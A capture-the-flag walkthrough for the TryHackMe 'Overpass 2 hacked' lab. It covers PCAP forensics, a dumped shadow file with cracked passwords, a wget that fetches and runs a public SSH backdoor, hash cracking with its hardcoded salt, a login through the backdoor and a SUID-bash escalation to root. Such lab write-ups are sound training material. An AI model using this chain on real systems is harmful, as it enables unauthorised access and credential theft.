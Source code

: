 | [![Overpass](/_static/images/overpass.png)](https://tryhackme.com/room/overpass2hacked) |
|:--:|
| [https://tryhackme.com/room/overpass2hacked](https://tryhackme.com/room/overpass2hacked) |

# Overpass 2 hacked

Overpass has been hacked. Analyse the attacker’s actions and hack back in.

## Forensics - Analyse the PCAP

Open the `pcap` file in Wireshark and analyse the HTTP traffic (enter http as filter). 
Right-click on the first HTTP frame and select "Follow > TCP Stream":

| ![URL](/_static/images/Screenshot from 2022-10-02 00-57-01.png) |
|:--:|
| The URL of the page used to upload a reverse shell |

| ![Payload](/_static/images/Screenshot from 2022-10-02 00-55-58.png) |
|:--:|
| Payload used to gain access |

| ![Password](/_static/images/Screenshot from 2022-10-02 00-56-30.png) |
|:--:|
| Password used to escalate privileges |

| ![Backdoor](/_static/images/Screenshot from 2022-10-02 00-54-27.png) |
|:--:|
| Backdoor for persistence |

Before downloading the SSH backdoor, the attacker has dumped the content of the `/etc/shadow` file:

```text
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

Save in a file named `shadow.txt` and crack it with `john` against the `fasttrack` wordlist to find how many passwords were 
crackable:

    # john shadow.txt --wordlist=/usr/share/wordlists/fasttrack.txt
    Using default input encoding: UTF-8
    Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
    Cost 1 (iteration count) is 5000 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    secret12         (bee)     
    abcd123          (szymex)     
    1qaz2wsx         (muirland)     
    secuirty3        (paradox)     
    4g 0:00:00:00 DONE (2022-10-02 01:00) 22.22g/s 1233p/s 6166c/s 6166C/s Spring2017..starwars
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.

## Research - Analyse the code

Download the backdoor to figure out the default hash for the backdoor:

    $ wget https://github.com/NinjaJc01/ssh-backdoor/raw/master/backdoor
    $ chmod +x backdoor 
    $ ./backdoor --help
    backdoor
    
      Flags: 
           --version       Displays the program version string.
        -h --help          Displays help with available flag, subcommand, and positional value parameters.
        -p --port          Local port to listen for SSH on (default: 2222)
        -i --interface     IP address for the interface to listen on (default: 0.0.0.0)
        -k --key           Path to private key for SSH server (default: id_rsa)
        -f --fingerprint   SSH Fingerprint, excluding the SSH-2.0- prefix (default: OpenSSH_8.2p1 Debian-4)
        -a --hash          Hash for backdoor (default: bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3)

The source code of the backdoor (`main.go`) shows the hardcoded SALT (bottom of file):

```text
func passwordHandler(_ ssh.Context, password string) bool {
	return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

| ![Hash](/_static/images/Screenshot from 2022-10-02 01-09-12.png) |
|:--:|
| Hash used by the attacker |

```text
func hashPassword(password string, salt string) string {
    hash := sha512.Sum512([]byte(password + salt))
    return fmt.Sprintf("%x", hash)
}
```

The hardcoded salt is appended to the password, and the SHA512 of the resulting string makes the hash.

Save `hash:salt` to file `overpasshash.txt`:

    6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05

Crack with `hashcat` using mode `1710` for `sha512($pass.$salt)`:

    # hashcat --force -m 1710 -a 0 overpasshash.txt /usr/share/wordlists/rockyou.tx

## Hack back in

Scan:

```text
# nmap -sC -sV 10.10.199.98 -vv
...
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCytc0lfgdX4r5ZxA8cr9Qi/66ppcB+fyEtT75IUtKC32Y/rpvBfFGRg9YxHVhKQKBDh1KlgXL3hJTJH1aqjEPtwXORQx+QmK5yFFQa524mKj3WzFZswUcDTk4s4F+m761x+QZMcb//UJhWuqiZ2QV+GW1UJsawrFhK3nogzIQ/eomxxR6TodNx2z2CzVahLULWcQjAMOKPAlqF5vsaoWk39Y4u9JDqA2JdEI2//kIb4RjuMbZDOtUDCgPypTCMgLKzIzAZQ54nWsHoUHoGUdPlon1mkVKgno/9cjZVwqveqQpQpO3DrQpjdB6xiCzBz34H9iUMvCEgJab64WkIGLGH
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGidEthZX/MDeUCmzLRQlezisPE1OceyHa6QBfwGnWirEYCdHM68kMGFlNJODkA7dunY+TUARD5WcjXMAN1iw7A=
|   256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPQ1lZqbCdY81xFaGZ1fwaVxJExe5+meLXraNAjwWTAm
80/tcp   open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: LOL Hacked
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
2222/tcp open  ssh     syn-ack OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDlwW5RS5iWPR+x1AVz4TAWAr/fSvF3KC16voiHSUImF8fNiWT4Pcb5KADkmhssq4amO2uyN+gF9KpEbXrVj63hKdkJrF4lQnzlxX8mHeeg9CLWA1/zI1BZ8TDmC9h45K3DwJjcD8zb56JPDi20PoIjVe3zUe3lf2geBxsAyhR5Cs4vWWUBzyocdkFDu+QXirPJv5lxcuiPhUVyDQZtHOK9evrXOOpeZiYgpqxcYTqHk5JcZbrV1sTNU8mkQiJXuVDQO+hOoOO7yES3reMv0pDXtc/Cfz5ZHJuAaGhU/fawIjUBlIeXY3wjUJe3UYgm1qE/idyq+9rU5TVApjxo+mjR
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
Nmap done: 1 IP address (1 host up) scanned in 39.63 seconds
```

Hack back in via the backdoor using name and password found.

If you get:

    # ssh james@10.10.98.146 -p 2222 
    Unable to negotiate with 10.10.98.146 port 2222: no matching host key type found. Their offer: ssh-rsa

Add the following two lines to `/etc/ssh/ssh_config` first:

```text
PubkeyAcceptedAlgorithms +ssh-rsa
HostkeyAlgorithms +ssh-rsa
```

Again:

    # ssh james@10.10.98.146 -p 2222          
    The authenticity of host '[10.10.98.146]:2222 ([10.10.98.146]:2222)' can't be established.
    ...
    james@10.10.98.146's password: 
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.

Get the flag from `user.txt`:

    $ cd ..
    james@overpass-production:/home/james$ ls -la
    total 1136
    drwxr-xr-x 7 james james    4096 Jul 22  2020 .
    drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
    lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
    -rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
    -rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
    drwx------ 2 james james    4096 Jul 21  2020 .cache
    drwx------ 3 james james    4096 Jul 21  2020 .gnupg
    drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
    -rw------- 1 james james      51 Jul 21  2020 .overpass
    -rw-r--r-- 1 james james     807 Apr  4  2018 .profile
    -rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
    -rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
    drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
    -rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
    drwxrwxr-x 7 james james    4096 Jul 21  2020 www
    james@overpass-production:/home/james$ cat user.txt

And use the conveniently left `.suid_bash` (see [GTFObins bash](https://gtfobins.github.io/gtfobins/bash/)): 

    james@overpass-production:/home/james$ ./.suid_bash -p
    .suid_bash-4.4# cat /root/root.txt
